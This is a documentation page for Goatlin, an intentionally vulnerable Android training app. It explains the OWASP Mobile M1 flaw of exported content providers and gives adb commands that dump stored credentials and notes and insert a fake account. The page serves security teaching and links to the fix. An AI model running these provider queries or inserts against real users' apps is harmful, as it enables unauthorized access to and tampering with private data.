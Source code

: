 ```yaml
---
nav_order: 1
---
```


M1: Improper Platform Usage
===========================
From the [Android documentation][4]: "_Content providers are one of the primary
building blocks of Android applications, providing content to applications._"
Content providers are mostly used to share data between Android applications,
such as activities, services or receivers. Content providers can have weak
permissions or can be exported for all the apps on the device. Such
misconfiguration can allow the Android app to leak the data used by the Content
provider.

When the Content provider is exported, all the apps can query the Content
provider to retrieve or modify the data. On the [Goatlin app][0], we can
see that a Content provider is defined with the name `.AccountProvider` and
the exported tag is set to true. Here is an extract of the `AndroidManifest`
file:

```xml
<provider
    android:name=".AccountProvider"
    android:authorities="com.cx.goatlin.accounts"
    android:enabled="true"
    android:exported="true" />
```

Looking at the code on the `AccountProvider.kt` class, we can retrieve the
Content URI:

```xml
companion object {
    private val AUTHORITY = "com.cx.goatlin.accounts"
    private val ACCOUNTS_TABLE = "Accounts"
    val CONTENT_URI : Uri = Uri.parse("content://" + AUTHORITY + "/" +
                ACCOUNTS_TABLE)
    private val DATABASE_NAME = "data"
}
```

Then, using the `adb` tool, we can query this provider and even insert data.
Here is simple example allowing a query to the provider in order to retrieve the
accounts stored:

```
$ adb shell content query --uri content://com.cx.goatlin.accounts/Accounts
Row: 0 id=1, username=admin, password=admin
```

We can obtain the admin's credentials in this case.


Here is another example allowing an insertion to add a new account into the
Goatlin app:

```
$ adb shell content insert --uri content://com.cx.goatlin.accounts/Accounts  --bind username:s:kotlin --bind password:s:goat
$ adb shell content query --uri content://com.cx.goatlin.accounts/Accounts
Row: 0 id=1, username=admin, password=admin
Row: 1 id=2, username=kotlin, password=goat
```

Below, you can see this in action:

{% include youtube-player.html id="U5czs2s8Ifc" %}

In the same manner, the app leaks a Content provider named `.NotesProvider` for
the notes created by the user.

Here is the definition of the Content provider in the Android manifest:

```xml
<provider
    android:name=".NotesProvider"
    android:authorities="com.cx.goatlin.notes"
    android:enabled="true"
    android:exported="true"></provider>
```

As shown previously, we can obtain the Content URI by analyzing the
`NotesProvider` class:

```kotlin
companion object {
    private val AUTHORITY = "com.cx.goatlin.notes"
    private val NOTES_TABLE = "Notes"
    val CONTENT_URI : Uri = Uri.parse("content://" + AUTHORITY + "/" +
                NOTES_TABLE)
    private val DATABASE_NAME = "data"
}
```

Again, with the `adb` tool, we can query this provider and retrieve the notes
stored:

```
$ adb shell content query --uri content://com.cx.goatlin.notes/Notes
Row: 0 id=1, title=whvw, content=whvw, createdAt=2019-01-07 14:58:32, owner=1
```

For this provider, we can observe that the notes are not stored in clear text
(the title and content of the note should be "test").
This encryption mechanism is further analyzed in the [M5: Insufficient
Cryptography][8] section.

This issue was fixed on [Goatlin][0]: you can find it on
[feature/m1-improper-platform-usage branch][10].

More information about how to test improper platform usage can be found on the
[OWASP Mobile Testing Guide][5] and especially on the [Testing Platform
Interaction][6] section.

## Resources

### Tools

* [adb][9]
* [apktool][1]
* [jadx][2]
* [jd-gui][3]

### Readings

* [Android documentation: Content Provider][4]
* [Testing Platform Interaction][6]
* [OWASP Mobile Testing Guide][5]
* [OWASP Mobile Top 10 2016: M1 - Improper Platform Usage][7]

[0]: https://github.com/Checkmarx/Goatlin
[1]: https://github.com/skylot/jadx
[2]: http://jd.benow.ca/
[3]: https://ibotpeaches.github.io/Apktool/
[4]: https://developer.android.com/reference/android/content/ContentProvider
[5]: https://www.owasp.org/index.php/OWASP_Mobile_Security_Testing_Guide
[6]: https://github.com/OWASP/owasp-mstg/blob/master/Document/0x05h-Testing-Platform-Interaction.md
[7]: https://www.owasp.org/index.php/Mobile_Top_10_2016-M1-Improper_Platform_Usage
[8]: ../m5-insufficient-cryptography
[9]: https://developer.android.com/studio/command-line/adb
[10]: https://github.com/Checkmarx/Goatlin/tree/feature/m1-improper-platform-usage

